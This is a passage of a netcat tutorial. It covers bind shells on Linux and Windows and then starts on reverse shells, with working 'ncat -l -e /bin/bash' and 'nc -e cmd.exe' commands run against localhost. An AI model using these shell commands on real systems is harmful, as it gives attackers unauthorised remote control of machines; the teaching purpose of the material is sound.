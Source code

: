 The "-n" parameter here prevents DNS lookup, "-z" makes nc not receive any data from the server, and "-w 1" makes the connection timeout after 1 second of inactivity.

### Remote Shell/Backdoor

Netcat can be used to start a basic shell on a remote system on a port without the need of ssh. Here is a quick example.

	$ ncat -v -l -p 7777 -e /bin/bash

The above will start a server on port 7777 and will pass all incoming input to bash command and the results will be send back.

Connect to this bash shell using nc from another terminal

	$ nc localhost 7777

Now try executing any command like help , ls , pwd etc.

**Windows**

On windows machine the netcat shell can be started with the same command

	C:\tools\nc>nc -v -l -n -p 8888 -e cmd.exe
	listening on [any] 8888 ...
	connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 1182

Now another console can connect using the telnet command

Netcat though can be used to setup remote shells, is not a very effective method to get an interactive shell on a remote system. The most effective method is to create a reverse shell as we shall see in the next example.

### Reverse Shells

This is something netcat is most used for by hackers. Netcat is used in almost all reverse shell techniques to catch the reverse connection of shell program from a hacked system.

**Reverse telnet**

This will require netcat to be installed on the target system.
First a netcat server has to be started on local machine or the hacker's machine.

machine A

	$ ncat -v -l -p 8888

The above will start a socket server (listener) on port 8888 on local machine/hacker's machine.

Now a reverse shell has to be launched on the target machine/hacked machine. There are a number of ways to launch reverse shells. For any method to work, the hacker either needs to be able to execute arbitrary command on the system or should be able to upload a file that can be executed by opening from the browser.

First lets try to launch a shell using netcat. This assumes that

**machine B**

	$ ncat localhost 8888 -e /bin/bash
